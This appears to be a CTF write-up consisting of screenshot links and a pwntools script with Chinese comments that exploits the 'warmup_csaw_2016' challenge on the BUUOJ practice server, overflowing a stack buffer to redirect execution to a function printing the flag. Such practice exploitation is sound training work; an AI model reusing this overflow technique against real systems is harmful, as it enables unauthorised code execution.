






```python
from pwn import *

# io = process('/home/mykali/pwn/warmup_csaw_2016')         # 本地测试
io = remote('node5.buuoj.cn', 29096)            # 远程连接

cat_flag_addr = 0x40060D     # 包含cat flag.txt 的函数的地址

padding = 0x40 + 8             # 偏移量, 64位程序
payload = b'a' * padding + p64(cat_flag_addr)

io.sendline(payload)
io.interactive()

```